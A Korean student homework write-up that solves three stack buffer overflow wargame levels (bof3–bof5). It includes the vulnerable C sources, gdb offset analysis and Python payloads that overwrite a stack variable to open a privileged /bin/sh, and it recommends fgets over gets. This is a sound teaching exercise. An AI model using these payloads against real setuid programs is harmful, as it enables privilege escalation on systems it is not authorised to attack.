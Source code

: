 # Report. HW6.

## 들어가기 전...
gcc로 `gets`가 들어간 코드를 컴파일하면 

    warning: the 'gets' function is dangerous and should not be used.
    
라는 경고문을 띄운다(오류는 아니라서 실행파일이 만들어지긴 한다). 지금 우리가 하는 `bof` 시리즈들이 모두 이 `gets`가 그 안에 넘겨줄 문자열의 크기를 넘어서서 다른 값들을 바꾸는 것들인데, 이것과 관련이 있는 게 아닐까 싶다. Microsoft Visual C/C++에서 `scanf` 대신 `scanf_s` 함수를 사용하라고 하는 것도 비슷한 이유로 보인다.

`gcc`로 컴파일할 때, 콘솔에서 문자열을 입력받으려면 `gets` 대신에 `fgets`를 쓰면 될 것이다. 이 친구는 

    char* fgets(char* str, int num, FILE* stream);
    
...의 형태로, 원래 `gets`에서 `str`만 받던 것에 비해 받을 문자열의 길이와 입력받을 위치(포인터 형태)를 추가로 제시해주어야 한다. 지금까지의 `bof`에선 `buf`의 크기가 128이었으니...

    gets(buf);
    
...대신에,

    fgets(buf, 128, stdin);
    
...이 들어간다면 BOF

## `bof5`

<details><summary>`bof5.c`</summary>
<p>
    
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define G "\033[32m"
#define Y "\033[33m"
#define E "\033[0m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];
    
    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent == KEY) {
        if (setreuid(1006, 1006)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(1006, 1006)) {
            perror("setgid");
            exit(1);
        }
        system(buf);
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

### 이전과의 차이점
- `bof4`는 argument로 문자열을 넘겨주었지만, 이번엔 *프로그램 내 입력*을 통하여 문자열을 넘겨주어야 한다.
- `system("/bin/sh")`을 통하여 BOF가 발생했을 경우 그 안에서 쉘을 실행하는 구문이 이번엔 `system(buf)`으로 바뀌었다. 그러니까, *입력을 통해* `/bin/sh`을 실행하여야 한다.

### 진행
그래서... 이번에도 `buf`와 `innocent` 간에 거리가 얼만큼 되는지 알아보아야 한다.

문자열을 입력받는 `gets`

    0x555555555244  <vuln+27>       lea rax, [rbp-0x90]
    0x55555555524b  <vuln+34>       mov rdi, rax
    0x55555555524e  <vuln+37>       mov eax, 0x0
    0x555555555253  <vuln+42>       call 0x5555555550f0 <gets@plt>
    
... 부분에서, `$rdi`가 가리키는 주소 `$rbp - 0x90` 주소를 찾아보니 주소값 `0x00007fffffffe400`이 나왔다. 여기가 `buf`의 시작주소일 것이다.

그리고 `innocent`와 `KEY`를 비교하는 부분

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678
    
...에서 `innocent`가 있는 주소값 `$rbp - 0x4`가 가리키는 곳을 찾아보니 주소값 `0x00007fffffffe48c`가 나왔다. `buf`에서 **140** 만큼의 주소값 차이가 존재한다. 그러니까... `gets`를 통해 140글자를 입력하고 뒤에 `KEY` 값을 넣어줘야 `innocent == KEY`가 `true`가 되어 그 안에 있는 코드가 실행될 것이다.

입력할 때 앞에 "/bin/sh; "를 붙여주자(그래야 쉘이 안에서 실행된다). 그리고... 중간에 있는 내용들은 #로 채워놓자(그래야 쉘이 실행되고 아무것도 실행하지 않게 - 중간에 채워놓은 #들 때문에 주석처리가 되어 아무것도 실행을 하지 않게 - 된다. 그 다음에 `innocent`에 들어갈 비교값 `0x12345678`을 **little-endian** 방식으로 입력을 시켜주고.

위의 말을 코드로 바꾸면, `"python -c ('/bin/sh; ' + '#' * 131 + '\x78\x56\x34\x12')"`의 결과물을 `bof5`의 입력값으로 주면 될 것이다.

![bof5_input_done](./HW6_screenshots/HW6_1.png)

성공했다. (`bof6` 비밀번호는 일부러 잘랐다)



## `bof3`

<details><summary>bof3.c</summary>
<p>

```c
// AFTER => bof2.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x61
#define G "\033[32m"
#define E "\033[0m"
#define Y "\033[33m"

void vuln() {
    int innocent;
    char buf[BUF_SIZE];

    puts(G "enter your name :)" E);
    gets(buf);
    printf("Hello " Y "%s" E "!\n", buf);

    if (innocent  == KEY) {
        if (setreuid(UID_BOF4, UID_BOF4)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF4, UID_BOF4)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(){
    vuln();
    return 0;
}
```

</p></details>

`bof5`를 먼저 작성하고 `bof3`을 보았더니 `KEY`와 `system("/bin/sh")` 부분을 제외하고 다른 부분이 없...다. 그래서 풀이 방법도 비슷하다고 생각했는데, 우선... `innocent`와 `buf`의 주소값을 알아보자.

`bof5` 때와 같은 부분에서 `gets`가 참고하는 `$rdi`가 가리키는 주소 `$rbp - 0x90`의 주소값은 `0x00007fffffffe400`이 나왔고, `innocent`와 `KEY`를 비교하는 부분에서 `$rbp - 0x4`의 주소값으로 `0x00007fffffffe48c`가 나왔다. 여기도 동일하게 주소값 차이는 140이 나왔고.

`KEY`는 `0x61`... 그러니까 `0x00000061`인데, little-endian 방식으로라면 `\x00\x00\x00\x61`이 아니라 그냥 `\x61`만 주면 될 것이다.

위의 말을 코드로 바꾸면, `"python -c ('a' * 141)"`의 결과물을 `bof3`의 입력값으로 주면 될 것이다. (`0x61`은 소문자 `a`)

![bof3_input_done](./HW6_screenshots/HW6_2.png)

성공했다.



## `bof4`

<details><summary>bof4.c</summary>
<p>

```c
// AFTER => bof3.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#define BUF_SIZE 128
#define KEY 0x12345678
#define R "\033[31m"
#define E "\033[0m"

void vuln(char * arg) {
    int innocent;
    char buf[BUF_SIZE];

    strcpy(buf, arg);
    printf("Hello %s!\n", buf);

    if (innocent == KEY) {
        if (setreuid(UID_BOF5, UID_BOF5)) {
            perror("setuid");
            exit(1);
        }
        if (setregid(UID_BOF5, UID_BOF5)) {
            perror("setgid");
            exit(1);
        }
        system("/bin/sh");
    }
}

int main(int argc, char *argv[]){
    if (argc < 2) {
        fputs(R "error :( this program needs some arguments\n" E, stderr);
        return 1;
    }
    vuln(argv[1]);
    return 0;
}
```

</p></details>

`bof3`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- 키값이 달라졌다.
...의 차이가 있고, `bof5`과는...
- 프로그램 내 입력이 아닌, 프로그램의 argument로 번호를 넘겨주게 된다.
- `system` 안도 내가 쉘 경로를 줘야하진 않고, `innocent`만 바꾸는 데에 성공하면 쉘을 실행하게 된다.
...의 차이가 있다.

일단 똑같이 **BOF**를 통해 `innocent`에 값을 넘겨줘야 할 텐데... 주소값을 확인해 보자.

    0x555555555246  <vuln+29>       lea rax, [rbp-0x90]
    0x55555555524d  <vuln+36>       mov rsi, rax
    0x555555555250  <vuln+39>       mov rdi, rax
    0x555555555253  <vuln+42>       call 0x5555555550c0 <strcpy@plt>
    
...에서 `buf`의 첫번째 부분에 해당하는 `$rbp-0x90`이 가리키는 주소를 보았더니 주소값 `0x00007fffffffe3f0`이 나왔다. 그리고...

    0x555555555273  <vuln+74>       cmp DWORD PTR [rbp-0x4], 0x12345678

...에서 `innocent`의 주소값을 보았더니 `0x00007fffffffe47c`가 나왔다. 여기도 `buf`와 `innocent` 간에 140의 주소값 차이가 있었다.

140개의 더미 문자들을 주고 little-endian 방식으로 `0x12345678`을 주려고 한다면 `python -c "print ('a' * 140 + '\x78\x56\x34\x12')"`의 출력물을 argument로 넘겨주면 될 것 같다.

![bof4_input_done](./HW6_screenshots/HW6_3.png)

성공했다.

# -- END --

